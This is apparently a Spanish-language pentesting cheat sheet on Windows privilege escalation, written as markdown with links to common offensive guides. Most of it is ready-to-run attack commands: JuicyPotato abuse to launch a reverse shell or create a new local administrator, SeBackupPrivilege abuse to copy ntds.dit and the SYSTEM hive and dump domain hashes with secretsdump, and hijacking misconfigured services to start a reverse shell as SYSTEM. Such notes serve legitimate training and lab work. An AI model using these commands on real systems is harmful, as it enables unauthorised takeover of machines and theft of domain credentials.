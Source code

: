 ## Windows Privilege Escalation

Técnicas utilizadas para escalar privilegios en sistemas basados en Windows.

### Recursos

[Hacktricks - Windows Privesc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Payload All The Things - Windows Privesc Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Sushant Guide OSCP](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[Another good guide](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows)


### Técnicas comúnes para escalar privilegios 


- [Abusing Tokens](#whoami-priv)
  - [SeImpersonatePrivilege](#SeImpersonatePrivilege)
  - [SeBackupPrivilege & SeRestorePrivilege](#SeBackupPrivilege-And-SeRestorePrivilege)
- [Privileged Groups](#whoami-groups)
- [Servicios Vulnerables](#Servicios-Vulnerables)
  - [Insecure Permissions](#Insecure Permissions)
  - [Unquoted Service Path](#Unquoted Service Path)
  - [Weak Registry Permissions](#Weak Registry Permissions)

## whoami priv

[Hacktricks Guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

**Lista de Tokens de Acceso interesantes**

|Privilege|Privilege|
|--|--|
|**SeImpersonatePrivilege**|**SeAssignPrimaryPrivilege**|
|**SeTcbPrivilege**|**SeBackupPrivilege**|
|**SeRestorePrivilege**|**SeCreateTokenPrivilege**|
|**SeLoadDriverPrivilege**|**SeTakeOwnershipPrivilege**|
|**SeDebugPrivilege**||

### SeImpersonatePrivilege

#### Mediante una Reverse Shell

**Tool**: JuicyPotato.exe 
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c c:\windows\temp\rev.exe" -c <clsid> (optional)
```
#### Creando nuestro propio usuario
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net user chan chan123 /ADD"
```
**Agregándo nuestro usuario al grupo Local Administrators**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net localgroup Administrators chan /add" 
```
**Cambiando el registro LocalAccountTokenFilterPolicy para poder tener acceso remoto**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" 
```
 
### SeBackupPrivilege And SeRestorePrivilege

**Crear una lista de instrucciones que serán ejecutadas con Diskshadow (Herramienta de gestión de discos)**

```bash
SET CONTEXT PERSISTENT NOWRITERS#
add volume c: alias chan#
create#
expose %chan% z:#
```
**Lo subimos a nuestro target y ejecutamos**
```cmd
diskshadow /s fichero_instrucciones.txt
```

**Luego subimos e importamos dos Dlls que nos servirán para copiar archivos entre discos**

[Dlls utilizados](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Copiamos el ntds.dit (Base de datos que almacena hashes del AD)**
```powershell
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit
```
**Guardamos la llave system del registro de windows**
```powershell
reg save HKLM/SYSTEM c:\temp\system
```
**Dumpeamos los hashes con impacket-secretsdump y voila**
```bash
impacket-secretsdump -ntds ndts.dit -system system -hashes lmhash:nthash LOCAL
```

## whoami groups

[Guía detallada](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)

### Dns admins

***HTB Machine*** : **Resolute**


## Servicios Vulnerables

**Obtener lista de servicios**

```cmd
net start
wmic service list brief
sc query
Get-Service
```
**Obtener permisos del servicio**

```cmd
sc qc <service_name>
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

**Ver si Authenticated Users pueden modificar el servicio**

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

### Insecure Permissions

**Podemos usar accesschk.exe para verificar los permisos del usuario actual sobre un servicio en específico**
```cmd
.\accesschk.exe /accepteula -uwcqv <user> daclsvc
```
**En caso de tener el permiso `SERVICE_CHANGE_CONFIG` podemos aprovecharnos y modificar la propiedad `BINARY_PATH_NAME`**

Es necesario consultar si el servicio corre como SYSTEM mirando la propiedad `SERVICE_START_NAME`
```cmd
sc qc daclsvc
```
Modificamos la configuración del servicio y establecemos el BINARY_PATH_NAME (binpath) al de una reverse shell o un binario que queramos ejecutar

```cmd
sc config daclsvc binpath= "C:\tmp\reverse.exe"
```
Ponemos un socket de escucha e iniciamos el servicio

```cmd
net start daclsvc
```

### Unquoted Service Path 

[Explicación](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is)


**Primero debemos verificar que el servicio está corriendo como SYSTEM observando la propiedad `SERVICE_START_NAME` y también checkear si el nombre tiene espacios en el path mirando la propiedad `BINARY_PATH_NAME` **

```cmd
sc qc unquotedsvc
```

**Luego verificamos los permisos de la carpeta donde se ubica el binario real**
```cmd
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
icacls "C:\Program Files\A Subfolder"
```
**Ahora copiamos la reverse shell en el folder final donde se situaba el binario**

```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

**Iniciamos el servicio**
```cmd
net start unquotedsvc
```

### Weak Registry Permissions

Consultamos el servicio `regsvc` y verificamos si está corriendo como SYSTEM (`SERVICE_START_NAME`).
```cmd
sc qc regsvc
```
Verificamos si el servicio es writable por algun grupo al que pertenezcamos, si sale `NT_AUTHORITY\Interactive` quiere decir que es modificable por cualquier usuario logueado.

```cmd
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Sobrescribimos la llave del registro ImagePath para que apunte al ejecutable reverse.exe que hemos creado

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Iniciamos un listener en Parrot y luego iniciamos el servicio para generar una shell reversa que se ejecute con privilegios de SYSTEM

```cmd
net start regsvc
```




